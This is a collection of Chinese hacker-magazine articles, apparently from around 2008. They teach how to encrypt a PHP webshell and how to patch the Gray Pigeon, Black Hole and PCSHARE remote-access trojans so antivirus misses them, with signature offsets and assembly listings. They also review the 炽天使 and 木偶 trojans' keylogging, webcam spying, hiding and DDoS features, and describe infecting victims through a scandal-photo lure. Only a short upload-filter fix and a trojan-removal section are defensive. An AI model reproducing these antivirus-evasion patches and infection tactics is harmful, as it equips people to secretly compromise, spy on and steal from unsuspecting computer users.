的确如此，不仅过滤了 asa、aspx，还过滤了 asp、cdx、cer 等格式，看来程序制作者真是煞费苦心啊，只可惜过滤得不全，这就要用到我们的 PHP 后门了。我自己使用的后门是从国外的网站上找到的，被我手动做了免杀，为了广大菜鸟群众都能用上国产的免杀 PHP 木马，下面我就介绍一款 PHP 加密软件 phpencode。

它的使用方法基本和上次我介绍过的 screnc 一致，只不过是把命令中的 screnc.exe 改成 phpencode.exe 而已。

先来看一下这款软件，解压后如图1所示，这个比起 screnc 来要简单多了，少了 dll 和 inf 文件。主程序 phpencode.exe 依旧是在 CMD 命令行下运行的，要求待加密的 PHP 文件与 phpencode 要在同一目录下。

其用法为“phpencode.exe 待加密文件 保存文件名”。假设 phpencode.exe 所在位置为 E:\tool\phpencode.exe，待加密文件位置假设为 E:\tool\shell.php，则在 CMD 下运行的命令为：

```bash
cd E:\tool\
phpencode.exe shell.php newshell.php
```

成功后就会显示“文件 shell.php 免杀成功 请查看同目录下的 newshell.php 文件”，如图2。需要说明的是，加密前需要去掉第一行和最后一行的 PHP 标记“<?”和“?>”，否则会出现错误。最后让我们使用一款国内常见的 PHP 后门来对比一下加密前后的样子，分别如图3、图4所示。

好看程度不亚于 screnc 加密出来的效果*_*，而且加密后还有优化程序、缩小文件之功效，文件从 83K 压缩到了 35K，如图5。


图2


图4


图3


图5

最后再来对上述 BBSXP 进行一个补充。

- 其实不仅是 BBSXP 的作者过滤的后缀可以包含动态语言调用相应的函数，asp、asa、aspx、cdx、cer、jsp、cgi 等后缀的文件也是全部可以通用的，除了这些外，php 也是一种动态语言的文件后缀。
- 如果把上边那段代码改成（如下代码框）就安全了。

```php
if FileExt='asa' or FileExt='asp' or FileExt='cdx' or FileExt='cer' or FileExt='aspx' or FileExt='php' or FileExt='cgi' or FileExt='jsp' then Alert('对不起，管理员设定本论坛不允许上传此类格式文件!')
```

（文章中涉及到的 UpFile.asp 和 phpencode 已经收录在光盘中）

## 又于未逸杀软鸽子 VIP2.03

JKS_浅色约定

自从上了初三，一直忙于学习，很久没有写文章了，这次我就将自己免杀灰鸽子 VIP2.03 过瑞星的全过程详细地共享给大家，希望大家都能够轻松地学会免杀。

#### 一、修改主流数据，减少特征码

有些杀毒软件往往是把特征码定位在一些数据流上，只要我们把它改掉就可以大大减少特征码的修改量了。首先运行修改程序 C32Asm，点击“文件”→“打开”进入文件，载入灰鸽子的服务端。点击鼠标右键，在菜单中选“搜索”命令，在弹出的搜索窗口中输入“IEXPLORE.EXE”，如图1。


图1

很快我们就会搜索到“:\Program Files\Internet Explorer\IEXPLORE.EXE”这个字符串。只要把路径改为其它进程路径，就可插入到其它进程来过防火墙。选中该字符串后使用“修改数据”并进行“大小写翻转”，然后确定，如图2、图3。


当我们遇到一些汉字字符串时，可以替换成其它汉字，也可以用 00 填充。返回到最顶层搜索“远程管理软件灰鸽子服务端安装成功！……浅色约定”等字符串，同样可按上述方法修改。

#### 二、修改瑞星表面特征码

上面的方法仅供参考。运行 mycc1，对服务端定位文件特征码的结果如下：

```text
[特征] 0009F7C2,00000002
[特征] 000A1214,00000002
[特征] 000A231E,00000003
[特征] 000A55D8,00000002
[特征] 000A580C,00000002
```

使用 OC 地址偏移器把第一处特征码 0009F7C2 转换成内存地址，转换出的地址是 004A03C2。使用 OllyDBG 打开服务端，按 Ctrl+G 输入地址并跳转，如图4。


我们看到 004A03BF 这个地址的代码是“TEST EAX,EAX”，TEST 是测试的意思，一般情况下它是一句空指令，所以可将其改为“PUSH 0”并保存为 1.exe。

继续修改第二处特征码，000A1214 转换出来是 004A1E14。按上述方法定位到该地址，如图5。


可看到两个 MOV 指令位置可对调：把 004A1E12 与 004A1E15 处代码互换，保存为 2.exe。

第三处特征码 000A231E 转换后是 004A2F1E，定位特征码如图6。将“小于跳转 JL”尝试改为“JB”（即“JB 004A3018”）。


使用 OC 转换第四处特征码 000A55D8，结果是 004A640C。使用 OllyDBG 打开后，看到特征码在入口点附近，如图7。


可以看到 004A61BC 到 004A61C8 有很多无用指令，可重新排位。先把 004A61BC 到 004A61CA 用 NOP 填充，再重写指令。


写完指令后保存为 4.exe。第五处特征码是最后一处，使用 C32Asm 载入 4.exe，按 Ctrl+G 输入“000A580C”并确定。

来到 000A580C 这处特征码，如图8。我们从十六进制里看到特征码是“80”，前面有两个“00”……把“80”的前面一个“00”改为“20”，“20”就是代表“空格”字符串，修改完毕，保存为 5.exe，然后使用瑞星测试一下，已经检查不出来了，并且木马也能正常上线，如图9。

接下来我们修改瑞星的内存特征码，对服务端定位文件内存特征码的结果如下：

```text
[特征] 000AA5EE_00000002
[特征] 000A58F7_00000004
[特征] 0009F6C8_00000002
[特征] 000BC8B0_00000003
[特征] 0009E60C_00000002
```


使用 C32Asm 载入服务端，跳到第一处特征码“000AA5EE”，我们看到特征如图10所示。瑞星把内存特征码定位到输入表的“WNetOpenEnumA”这个函数的“A”上了，修改方法是向前移动一个字节即可……然后保存为 6.exe，如图11、图12。


打开 LordPE，我在图中已经大致写上了编号，这样方便大家看清楚，步骤如图13所示。载入服务端，点击“1”号区的“Break & Enter”……

在弹出“2”区号的窗口点击“Directories”，接着在“3”区号窗口里点击被圈按钮，因为在图10里可以看到“WNetOpenEnumA”在 mpr.dll 动态链接库里，所以在“4”号区的“DLLName”一栏找到“mpr.dll”。这时我们看到“5”号区有几个函数出现，在“5”号区选择要修改地址的函数，右键选择“Edit”，如图14。

接着会弹出一个对话框，我们看到“ThunkValue”的值是“000AE9E0”，因为刚才移动函数是向前移动了一个字节，所以这里也是向前移动一个字节，即 000AE9E0 - 00000001 = 000AE9DF。把“000AE9DF”输入到“ThunkValue”的值里面，然后点击“OK”按钮，如图15。此时可完整显示“WNetOpenEnumA”这个函数了，如图16。

第二处和第三处特征码都是使用 C32Asm 载入，分别跳到特征码“000A58F7”和“0009F6C8”，大家分别看到的特征码如图17和图18所示。这两处特征码在文章前面已经修改过了，就此略过，修改完之后保存为 7.exe。


使用 C32Asm 载入服务端，跳到“000BC8B0”地址，看到的特征码如图19所示，相信很多朋友都认为修改这处特征码使用大小写转换就行了。其实不行，不相信的朋友可以试试。


我们使用 Restorator 载入 7.exe，找到“RCData”目录的“DVCLAL”资源，选中它点击右键，在菜单中选择“删除”，如图20。然后点击文件保存。为什么这样就算修改了特征码呢？我们先使用 C32Asm 载入服务端，跳到特征码，如图21。对照一下图19的特征码，相信熟悉灰鸽子的朋友都很熟悉这些提示了。


到最后一处特征码了，使用 C32Asm 载入服务端，跳到特征码“0009E65C”地址，如图22，使用 OC 把“0009E65C”转换成内存镜像“0049F25C”。使用 OD 载入服务端，跳到“0049F25C”地址，把整行拖黑把它拷贝下来，然后在选中“http://”的字符串的前一个字节粘贴下来，把没有覆盖的字符串都用 00 填充，保存为 8.exe，如图23。


到此，这处特征码还没有修改完毕，还要修改关联的部分，如果不修改的话就不能正常运行了。我们使用 OD 载入服务端，点击右键，在菜单中找到“查找”，然后在子菜单中选择“所有参考文本字符串”，如图24。在弹出的窗口中查找“tp://”的文本字符串，如图25。然后选中它，双击跳到它的关联地址，如图26。我们看到代码是“MOV EAX,49F250”，在这个代码里“49F250”就是“http://”的地址了，因为我们刚才把它向前移动了一个字节，所以十六进制计算 49F250 - 1 = 49F24F。把“MOV EAX,49F250”改成“MOV EAX,49F24F”就 OK 了，“http://”这个字符串完整显示出来了，如图27。保存为 9.exe。特征码就这样修改完了，经过测试能顺利通过瑞星的表名和内存检测了。


新的 08 年来了，杀毒软件公司也都纷纷推出了自己的特色主动防御功能。这样也就意味着免杀技术将会更加精彩了，就让我们拭目以待吧。

> （本文所涉及到的字符串列表、灰鸽子 VIP2.03、OC 地址偏移器、OllyICE、c32asm 和 Restorator 已收录到光盘中）

### 绽放网络的“炽天使”


炽天使到底是什么？电脑游戏还是网络小说？都不是。因为今天我要介绍的炽天使，是一款地地道道的木马程序。这款木马为什么会起这个名称我不得而知，但是它所拥有的功能却相当的强大，强大到连卡巴斯基也无法阻止其自由的飞翔。现在我们就来见识一下这个绽放在网络中的“炽天使”吧！

#### 一、配置服务端程序

首先运行“炽天使远控系统”的客户端，点击工具栏中的第一个按钮“生成服务端”，在弹出的窗口里就可以对服务端进行配置了。“服务端生成”窗口包括基本信息、连接设置、高级设置以及生成设置等功能标签。“基本信息”里主要设置主机注释、文件名称、服务名称、上线口令等。需要注意的是，文件名称表示释放后的名称，但是名称后面不需要跟任何的后缀名；“修改图标”按钮可以设置服务端程序的图标，既可以使用图标文件，也可以从 EXE、DLL 文件里进行图标的提取。“连接设置”主要用于客户端和服务端的连接，炽天使远控可以使用 IP 地址、网页域名、网页地址等多种方法进行连接。为了避免连接地址出错而造成无法连接的情况，炽天使还可以设置一个备用地址。“高级设置”中可以设置服务端插入的进程，炽天使为用户提供了三种进程选择，包括 IE 浏览器、资源管理器以及数目众多的……

## 骇马记

Svchost 进程。另外还可以设置服务端是直接连接还是使用代理服务器再进行连接，这样远程用户就无法追踪到木马的使用者了（图1）。“生成设置”里包括程序的自我保护设置，利用它可以进行服务端的端口、服务、文件的隐藏以及过杀毒软件的主动防御等。另外炽天使远控还有一个版本选择功能，其中包括基本版和迷你版，这主要是因为炽天使远控的很多功能是由插件来完成的（图2）。所有的设置完成后，点击“生成”按钮即可创建服务端了。


#### 三、木马的控制操作

首先将刚才创建的服务端程序安装到虚拟机里，接着在客户端的工具栏中正确设置“监听端口”和“登录口令”，然后点击“开始服务”按钮就可以进行监听。如果用户使用了备份连接地址，尤其是使用了 80 端口进行连接的话，那么同时需要将“HTTP 隧道”选项选中。通过测试，发现服务端程序上线稍微有些慢，这可能和它使用了一些插件有关。

### 1．主要控制功能

首先点击工具栏中的“CMD 命令行”，在弹出的窗口模拟出一个命令提示符窗口。通过该窗口不但可以执行很多网络终端命令，也可以执行很多本地操作命令以及执行大量的后门程序等。用户只需要在“输入命令”栏键入相关的命令，点击“发送”按钮就可以在窗口看到返回结果，如图3。另外在“CMD 命令行”菜单中，还有一个“Run As”命令，该命令是以指定的远程系统账户权限来执行命令提示符窗口命令，如果账户输入错误的话就以默认的 System 身份运行。


点击工具栏中的“文件管理”命令，就可以对远程系统中的文件以及文件夹进行管理操作了，比如执行上传、下载、打开、删除等操作。

炽天使远控的文件管理窗口分为上下两个部分，窗口上方是远程系统的磁盘目录，下方则是本地系统的文件目录。虽然可以利用工具栏和右键菜单进行传输操作，但是用户仍然可以直接通过鼠标将文件或文件夹拖放到对方磁盘。炽天使远控的文件传输不但支持断点传输，还支持多线程的操作，如图4。另外在远程系统的工具栏中还带一个文件查找命令，它可以帮助用户在指定的目录里找到需要的文件。比如用户想在 C 盘中查找可执行文件，那么首先可以在文件窗口中进入到 C 盘，然后点击搜索命令并在窗口中输入对应的文件信息即可。


### 2．插件控制功能

以上介绍的这两个命令都是服务端程序自带的，而其它的控制命令基本上都是通过插件来完成的。我们点击工具栏中的相关插件管理命令即可进入插件控制界面。


点击“插件管理”按钮，弹出的管理窗口同样分为上下两个部分，窗口上方是远程系统已经安装的插件，而下方则是本地的客户端目录里所有的插件。如果配置服务端选择的是基本版，那么炽天使远控就已经默认安装了包括进程管理、服务功能、系统信息、屏幕监控等六个功能。如果你想添加新的插件的话，只需要在窗口下方选择相应的插件，然后点击鼠标右键，选择“安装插件”命令即可，如图5。从图中大家可以看到我安装了一个“键盘记录器”插件，同理用户也可以卸载删除远程系统已经安装的插件。

既然我们提到了木马插件，那就来看看这些插件的功能如何。我们以“键盘记录器”插件为例，首先在插件列表中选择“键盘记录器”插件，接着点击鼠标右键，选择“执行插件”命令，然后在弹出的功能窗口进行操作就可以了。点击“启动键盘记录”按钮，就可以记录远程系统中的键盘操作信息。过一段时间后点击“获取键盘记录”按钮，就可以获取木马程序截获的信息结果，如图6。

不过经过测试后我发现，木马虽然可以截获键盘记录，但是只能截获英文信息，不能截获中文信息内容。另外选择“设置为开机启动”，这样服务端在随机启动后就可以开始操作了。至于木马其它自带的插件，大家就自己慢慢感受吧。

除了通过插件管理窗口进行启动外，有的控制命令还可以直接通过工具栏进行操作，比如点击工具栏中的“屏幕监控”，这样就可以及时监控远程系统的操作情况了。程序会弹出一个该功能的设置窗口，首先选择控制屏幕的颜色色度，包括 65536 色、256 色、16 色三种颜色色度。接着选择“允许控制”和“自动保存画面”选项，并且设置自动保存画面的路径。最后点击“开始”按钮就可以进行屏幕监视操作，如图7。获取的远程屏幕的画质非常清楚，并且传输速度也非常流畅，如图8。通过屏幕左上角的控制命令，可以进一步地对监控屏幕进行相应的操作控制。


现在再点击工具栏中的“视频音频”按钮，如果远程系统连接有摄像头或话筒的话，那么就可以通过该功能来获取视频音频信息。用户只需要直接点击工具栏中的“开始”按钮即可。木马默认是同时同步截获视频和音频信息，当然也可以单独进行视频音频的监控。尤其是音频监控的操作，我们还可以通过“允许语音交流”选项来和远程用户进行交流。如果选择了“存为 AVI”选项，就可以将监控的信息保存为 AVI 文件，这样就可以通过播放器进行进一步的查看操作。

### 3．其它控制功能

我们再来看看木马程序常见的其它管理命令，比如“进程管理”“服务管理”“注册表管理”等。首先单击工具栏中的“进程管理”，它可以对远程系统中当前的进程进行管理。从管理窗口可以看到每个进程的进程 ID、映像名称、用户名等信息，从中我们也可以看到服务程序利用的 Svchost 进程，比如 ID 为 836 的那个进程，其用户名不是 SYSTEM 而是 LOCAL SERVICE，也就是本地服务，如图9。


我们通过“结束”命令可以关闭某些不喜欢的程序进程。接着点击“服务管理”命令，通过它可以对系统中的服务进行管理，比如启动服务、停止服务、删除服务、更改启动类型。炽天使远控的服务管理功能和系统中的服务管理差不多，就不更多地进行相关介绍了。最后来看看“注册表”管理命令，在弹出的功能窗口中就可以进行远程注册表的操作。操作方式和本地系统的注册表管理器一样，大家可以对需要的内容进行修改、删除、重命名等，另外也可以对注册表内容进行新建的操作。

#### 三、总结

到此为止，炽天使远控的主要功能就为大家介绍完了。炽天使不但使用了流行的木马技术，并且采用了 sys 驱动方式的内核级别服务端，另外由于采用了国际领先的恢复系统 SSTD 技术，可以彻底摧毁杀毒软件的主动防御功能。因此无论从各个方面上来讲都超过了传统概念的木马程序，因此非常值得各位木马爱好者来感受一番。

> （本文所涉及到的炽天使远控已收录到光盘中）

### “木偶”带来远程控制

木偶是我们小时候经常玩的一种玩具。我们通过木偶身上的线进行相应的操作，可以让木偶表演出各种复杂的动作。其实木偶和木马有很多相似之处，只不过木偶是我们通过实际的线进行控制，而木马则是通过看不见的线来进行控制。今天我就要为大家介绍一款名为“木偶”的木马程序，看看它是如何被我们进行控制操作的。


从上线列表中选择上线的远程计算机，接着点击鼠标右键，选择相应的控制命令，就可以进行服务器端程序的一些操作了。首先点击“系统信息”命令，可以查看远程计算机的更多信息，包括系统目录、CPU 类型、内存大小等，这对于我们以后的操作会有很好的帮助。

通过“窗口管理”命令可以对远程系统中当前存在的窗口信息进行管理，如果远程系统没有打开任何窗口，就会显示出一个 Program Manager 提示，也就是系统的资源管理器窗口，如图4。该命令不仅可以查看到应用程序的窗口，还可以查看到某些没有窗口进程的窗口句柄。点击鼠标右键，还可以进行刷新显示和关闭窗口等，这样我们就能对系统窗口进行有效的管理了。

#### 一、木马程序配置

首先我们可对木偶木马的服务端程序和客户端程序进行设置。点击“设置”按钮，用户可以根据需要选择“声音提示”“弹出窗口”等选项，如图1。接着点击“配置服务端”按钮，在这儿我们只需要设置服务端的反弹连接地址和反弹连接端口。老版本的木偶木马使用 80 端口进行连接，而目前的版本则默认改为 60000 端口进行数据传输，当然你也可以自定义使用其它的端口。为了更好地对服务端进行隐藏，木马程序还提供了“注入设置”选项，其中包括注入到 Explorer、Svchost 以及随机主进程注入等三种方式，如图2。


如果想让服务端程序自动启动的话，就需要选中其中的“启动项”选项。木马同样提供了三种启动方式，包括 ActiveX、Stealth IC、Infect 等。对于 ActiveX 这种启动方式大家较为熟悉，该方法可以在一般权限并且不提权的情况下，尽量保证低权限主机的正常上线。但是对于另外两种启动方式，本人就有些不太清楚了，各位读者可以自己进行测试一下。另外为了保证服务端程序能够更好地伪装，还可以进行伪造版本、修改时间、文件隐藏、清除还原点等设置。配置完成后点击“生成”按钮，就可以创建我们所需要的服务端程序了。服务端程序的体积还不到 22k，非常适合大家用于网页木马的制作。


说到系统管理功能，最常见的可能就是进程管理了。通过“进程管理”命令可以查看远程系统中当前的进程状况，通过“刷新显示”命令可以对进程信息进行及时更新，如图5。从图中我们可以清楚地看到被木偶木马利用的 Svchost 进程，通过“终止进程”命令就可以结束服务端程序的进程，当然也可以终止其它不需要的进程，比如杀毒软件、防火墙的进程等。

我们可以通过“文件管理”命令对远程磁盘中的文件进行操作，其中包括打开、新建、重命名、删除等。我们首先从分区列表中选择需要查看的分区或者直接在“路径”中输入需要查看的路径，然后再通过点击鼠标右键，选择其中的命令就可以对文件进行相应的操作管理了，如图6。不过遗憾的是，最新版本的木偶木马依然不支持多线程操作，因此每次只能对一个文件进行传输操作，不过好在木马支持文件的断点续传操作。

我们可以通过“服务管理”命令对系统服务项进行管理，点击鼠标右键，选择“刷新显示”命令就可以显示出远程系统中的服务项。刷新显示命令执行几次后，点击鼠标右键，通过其中的命令还可以进行系统服务项的启动和停止操作。不过我不清楚的是，为什么有的系统服务要用彩色进行特别标注，难道这些都是隐藏的系统服务吗？

#### 二、远程控制操作

点击客户端程序中的“开始”按钮，进行本地端口的监听操作，然后等待服务端程序的自动连接。当服务端程序自动连接成功后，客户端程序会弹出一个提示窗口，同时会有类似灰鸽子一样的语音提示。从上线列表中我们可以看到远程计算机的 IP 地址、系统类型、计算机名称等信息，如图3。


图6

如果要问 Windows 系统中什么最重要，我想注册表一定是首当其冲的，因为其保存了系统硬件和软件的设置信息。点击“注册表编辑器”，该编辑器完全模拟了 Windows 系统中自带的注册表编辑器，通过它就可以进行注册表编辑操作，包括对注册表键值的修改、新建、删除等，如图7。以前我比较轻视注册表编辑器的功能，现在我发现通过修改注册表内容可以轻松地突破系统防火墙的拦截。当然你也可以进行更多的其它修改，比如更改远程桌面使用的端口等，就好像我们在系统中留了一个后门一样。


图7

新版本的“木偶”木马新增了远程抓屏功能，通过这个功能可以对远程桌面进行查看。不过目前该远程抓屏功能还比较简单，只能一次抓取一张远程屏幕的内容信息，而不能连续地对屏幕进行抓取操作，并且抓取的远程屏幕的效果也不怎么理想。对于已经抓取的屏幕信息，可以将其保存到本地系统中。看来木偶木马以后还需要在桌面管理方面多下功夫。另外通过木马的远程视频功能，我们可以对远程系统的摄像头进行查看，操作方法和远程抓屏一样简单。

最后再来看看“DOS 模拟”命令，通过该命令可以模拟出一个命令提示符窗口，在该命令窗口中，我们可以执行大量的本地系统命令以及大量的网络终端命令，当然也可以在此执行其它的后门程序等。我们只需要在“输入 DOS 命令”选项中输入相应的命令，然后点击发送按钮就可以在远程系统中执行并得到反馈信息了，如图8。


图8

“木偶命令”就是对远程计算机进行常规控制的命令，包括 WEB 下载、Ping 测试、断开连接、卸载木偶等功能。通过 WEB 下载命令可以让服务端程序下载指定链接的文件并运行，当然该功能在对服务端程序集群操作时更为有效。“命令广播”就是一个集群控制平台，用户可以一次性对多台远程计算机进行同一项的操作。该功能除了包括常见的服务端断开、服务端卸载等命令外，还包括一个 DDOS 攻击命令，这样用户就可以通过控制的远程计算机同时对某个 IP 地址进行拒绝服务攻击了。

#### 三、服务端清除

首先点击安全工具 WSysCheck 的“端口状态”，通过它来查找服务器程序使用的 Svchost 进程的 PID 值，因为系统中有很多 Svchost 进程。这里我们确定 PID 值为 1784，接着在“进程管理”中找到该 PID 值的 Svchost 进程，选中它后点击鼠标右键，选择“结束这个进程”命令来结束它，如图9。

在“活动文件”里找到启动项 host32.com，点击鼠标右键，选择“定位注册表”，然后在出现的注册表编辑器中点击鼠标右键，选择“删除项”，清除服务端程序的启动信息内容，最后选择程序中的“文件管理”，对服务端程序文件进行最后的清除。在系统的 web 目录找到文件后点击鼠标右键，选择“直接删除文件”命令就可以完成对木马服务端的清除操作了。重新启动系统后再进行检查一下，以确认木马程序被彻底清除干净了。


图9

……地进行远程管理，同时还保证了服务端程序的小体积，这样也让受够了灰鸽子庞大“身躯”的用户有了另一种选择。如果你认为该木马功能有限的话，还可以通过它植入其它功能强大的木马程序。另外木偶木马采用了多种技术进行隐藏，而且利用了系统进程进行数据传输，这样即使是专业人士也需要很大的耐心才能将其清除。

> （本文所涉及到的木偶以及 WSysCheck 已收录到光盘中）

#### 四、小结

通过上面的简单介绍我们可以看出，木偶木马虽然集合了远程控制所需的主要功能，但是各项功能都非常迷你。这样点到为止的设置既可以让用户有效……

### 通通透透免杀黑洞 1.96

黑洞是一个很稳定的远程控制软件，所以倍受菜鸟的青睐，但是对于黑洞 1.96 DLL 国庆版，使用资源编辑工具找不到里面的 DLL 和 SYS 资源，很难制作免杀。我们这次就借助一个工具来对其制作免杀，可以将里面的资源导出来，具体的步骤请跟我一起来操作吧，体验一下自己如何亲手制作免杀的黑洞 1.96 DLL 版。

我们来分析一下，黑洞 1.96 的服务端共由四部分组成：两个 SYS 文件，一个 DLL 文件，一个 EXE 文件，其中的两个 SYS 文件是相同的。我们借助一个工具来提取就简单多了，避免了手工提取的麻烦。工具一共有三个，其中的 EXE 文件 SYS 提取器界面如图1所示，另外两个工具的界面相同，只是标题不一样而已。


从文件标题上的说明我们就能看出来它们各自是做什么用的了：一个是用来分离 DLL，另外一个用来分离 EXE 文件中的 SYS，还有一个则是用来分离 DLL 文件中的 SYS。SYS 提取比例 6.0 到 7.0 的，两个 SYS 文件是一样的，一个是在 EXE 文件中，一个夹在 DLL 文件中，所以我们制作某种版本的免杀就 OK 了。

好了，运行黑洞 1.96，生成 DLL 插入型服务端程序。对于生成的这个不加壳的文件，使用上面的三个工具分别导出 EXE 中的 SYS 和 DLL，再导出 DLL 中的 SYS。我生成的服务端程序 dd.exe 导出了三个文件，如图2。


我们这次主要来免杀过卡巴，只要把文件免杀了就可以了，因为其本身是过主动防御的。DLL 和 SYS 文件采取特征定位的方式，还得请出 MYCCLL 特征码定位器。不到两分钟，很快就定位出了 SYS 的特征码，如下：

```
特征码 物理地址/物理长度 如下：
[特征] 00005A2:00000004
特征码分布示意图：
[ ... ]
```


转换成内存地址为 000105A2 附近，使用 C32ASM 打开，跳到 000105A2，发现下面有个 POP ECX 指令，换成 PUSH ECX 指令测试一下。经过测试发现这个修改是可以的，过了主动防御，功能也正常，说明 SYS 生效。

下面来修改 DLL 文件，采用加壳改壳的方式，在此之前需要把 SYS 导回去，如图3。SS.SYS 是我修改完的 SYS，选择好路径，直接点合并就把 SYS 合并回去了，其实也就是替换原来的 SYS。


好了，下面对合并完 SYS 的 DLL 文件进行免杀卡巴，使用北斗 3.6 压缩一下，再使用 OD 打开，如图4。把使用方框圈起来的地方改成如图那样，这个是卡巴的一个弱点，我已经多次利用了，只要把壳的头部改一改就过了，保存后不被查杀。到此，我们把 EXE 和刚才制作完免杀的 SYS 合并，两个 SYS 一样，所以免杀一次就可以了。最后再把 EXE 和刚才免杀完的 DLL 合并，注意顺序啊。现在这个 DD.EXE 还是被查杀的，再做下它的免杀，和刚才免杀 DLL 的方法一样，先使用北斗 3.6 进行压缩，注意压缩的时候在配置选项上只选择压缩。然后和修改 DLL 一样，保存后免杀成功，现在一个完全免杀卡巴的黑洞 1.96 DLL 插入版就诞生了。你还可以借助 16 进制编辑工具，在我们免杀之前修改安装路径和文件名，做到真正的 DIY。运行的时候卡巴没有任何提示，说明 SYS 文件无损，360 安全卫士提示有 DLL 文件嵌入，说明 DLL 释放成功。这个解决办法是使用 16 进制编辑文件改掉安装文件名，黑洞默认的安装文件名早被杀毒软件盯上了。事不宜迟，赶紧做一个安装路径，最后黑洞成功上线。免杀到此结束，大家赶快自己动手去 DIY 一个吧。（本文所涉及到的黑洞国庆专版 DLL 提取器、MYCLL、黑洞 1.96 和北斗 3.6 已收录到光盘中）


## 纯手工免杀 PCSHARE

现在的木马实在太多了，但是基本上也都被各大杀毒软件盯紧了，因此再好的木马在杀毒软件面前也都会死翘翘。这次我就给大家带来了一篇纯手工免杀 PCSHARE 过瑞星和卡巴的文章。

PCSHARE 的免杀比较麻烦，主要是文件太多，一个失败了可能就会影响到整个木马不能运行，因此最好一个一个地进行测试。我们先免杀 PcInit.exe 让其过瑞星，首先定位特征码。


定位到 `000009C4_00000002` 为特征码，我们需要在 OD 中进行修改，所以还需要使用偏移量转换器这个小工具来转换一下，得到它在内存中的地址。


使用 OD 载入程序，按 Ctrl+G 跳到 `004015C4`，得到一段代码。这里实际不是可直接修改的真正执行代码，需要在周围查找对应跳转逻辑。

```asm
004015C3  JZ/JE 004015C9
004015C9  XCHG EAX, EBP
004015CA  DB 32
004015CB  PUSH EBP
```

这才是应该修改的地方。由于 `004015C4` 在 `004015C3` 与 `004015C9` 之间，所以只要修改这之间的代码即可。先把指令改为 JMP 到零区域，再从零区域跳回。

然后在零区域处跳转到 `004015CC`，这样就等于修改了特征码。我的零区域是 `004022CD`，修改后的代码如下。

```asm
004015C1  33C0          xor eax, eax
004015C3  E9 050D0000   jmp 004022CD
004015C8  90            nop
004015C9  95            xchg eax, ebp
...
004022CD  0F84 F9F2FFFF je 004015CC
```

按同样原理继续免杀 PcMain.dll，定位特征码并修改跳转，加载后地址变化但处理方法一致。

```asm
1000B0DA  33C0          xor eax, eax
1000B0DC  E9 E1400000   jmp 1000F1C2
1000B0E1  90            nop
1000B0E2  95            xchg eax, ebp
...
1000F1C2  0F84 ...      je 1000B0E5
```

接下来制作卡巴免杀，先定位 PcInit.exe，得到两个特征位置：`0000099C_00000002` 与 `00000A2E_00000004`。

```text
[特征] 0000099C_00000002 -> 转换后 0040159C
[特征] 00000A2E_00000004 -> 转换后 0040162E
```

```asm
0040159C  FF75 FC        push dword ptr [ebp-4]
0040159F  FF15 48304000  call dword ptr [<&KERNEL32.CloseHandle>]
```

这里是先压栈参数再调用 CloseHandle。为保险起见，把整个函数代码 NOP 掉并移到后面的零区域执行，避免直接破坏原逻辑。

```asm
00401596  FF15 50304000  call [<&KERNEL32.SetFileTime>]
0040159C  E9 FE0C0000    jmp 0040229F
004015A1  90             nop
...
0040229F  FF75 FC        push dword ptr [ebp-4]
004022A2  FF15 48304000  call [<&KERNEL32.CloseHandle>]
004022A8  E9 5FF2FFFF    jmp 004015A1
```

### 脱马记

对于 004022A2 处的代码可能有朋友会问是怎么得到的。由于 OD 能自动识别函数，所以就使用函数名代替了地址，但是我们只需要双击一下原来被改之前的那个对应代码，找到函数的地址：`call dword ptr [403048]`，填上去后同样的原因被 OD 自动转成地址。最后一个跳转是跳到原来程序执行后的地方，因为程序是自上而下执行的，我们跳了后当然要跳回去啊，这个符合逻辑嘛。这样后面代码我直接给出修改好的代码：

```asm
0040162B    FF55 FC        call dword ptr [ebp-4]
0040162E    E9 830C0000    jmp 004022B6
00401633    90             nop
//
004022B6    FF75 F8        push dword ptr [ebp-8]
004022B9    FF15 34304000  call dword ptr [<&KERNEL32.FreeLibrary>]
004022BF    E9 6FF3FFFF    jmp 00401633
```

其中 004022B9 处的是 `call dword ptr [403034]`。我们再来对 pcmain.dll 制作免杀，这里直接给出代码：

```asm
[特征] 0000E418_00000002  转换后1000F018
1000F014    53             push ebx
1000F015    E9 BB010000    jmp 1000F1D5
1000F01A    83FE 01        cmp esi,1
//
1000F1D5    E8 06ABFFFF    call f0009CE0
1000F1DA    E9 3BFEFFFF    jmp 1000F01A
```

现在来免杀最主要的 PcHide.sys 这个驱动文件，对于这个文件不太好修改，不能使用 OD，所以我们需要使用静态反汇编 C32asm 这个工具。由于是静态的，直接定位：`00000980_00000002`，使用偏移量转换器转换地址后为 `00010980`。

这里也有个地方值得注意：`00010980: 33C0 XOR EAX,EAX`，对应的机器码为 33C0，只有 4 个字节，而我们的 JMP XXX 指令是 10 个字节，因此不够用。但是如果特征码处的字节数不足，就不能直接修改特征码了，要把它上面的代码一同 NOP 掉，然后在后面的零区域把它们都补回来。如果不这样的话，字节不够会自动修改下面的代码，进而改变了整个程序的代码，那时估计你这个马都完蛋了，很多人可能都是这样失败的，所以在此处我需要提醒一下各位！

```asm
00010977: FF70 04          PUSH DWORD PTR DS:[EAX+4]
0001097A: E9 29050000      JMP 00010EA8
0001097F: 90               NOP
00010980: 90               NOP
00010981: 90               NOP
//
00010EA6: 0000             ADD DS:[EAX],AL
00010EA8: FF15 20030100    CALL DS:[103020]
00010EAE: 33C0             XOR EAX,EAX
00010EB0: E9 CCFAFFFF      JMP 00010981
00010EB5: 90               NOP
```

经过了以上的介绍，我们在手工修改 pcshare 特征码的各个方面大家都清楚了吧。现在瑞星的表面和内存都过了，对于卡巴来讲，过了表面也就是过了内存，无论查杀什么目录都查杀不了了，如图3，而且我们直接生成的就是无壳的东西，以后也方便自己修改。我测试的时候发现 PCSHARE 加壳好像都不是很好用，很多壳加了后都不能运行，可能是因为这个程序是由汇编和 C 编写的，没有“放鸽子”加壳那么随意吧！


图3

（本文所涉及到的 PCSHARE、MYCIL、OllyICE、OD 地址偏移器和 C32asm 已收录到光盘中）

### “艳照门”助我肉鸡成群

前天在黑客 X 档案的官方论坛看到一个朋友引用“艳照门”抓鸡的帖子（什么，你不知道什么是“艳照门”！？快去 baidu 或 google 搜索一下就知道了），当时觉得思路不错，今天有空照着那位朋友的思路测试了一下，不到一小时就抓到了 136 只肉鸡，测试成功。

先说一下抓鸡的思路：找几张跟“艳照门”有关的图片，和你的木马一起做成自解压文件，把自解压文件放到网上，注册一个百度账号，到你的百度空间发表有指向你的自解压文件链接的日志，然后到“艳照门”贴吧发帖，说你的空间有最新照片。因为浏览那个贴吧的人非常多，很快就会有肉鸡上线的。

#### 一、制作自解压文件

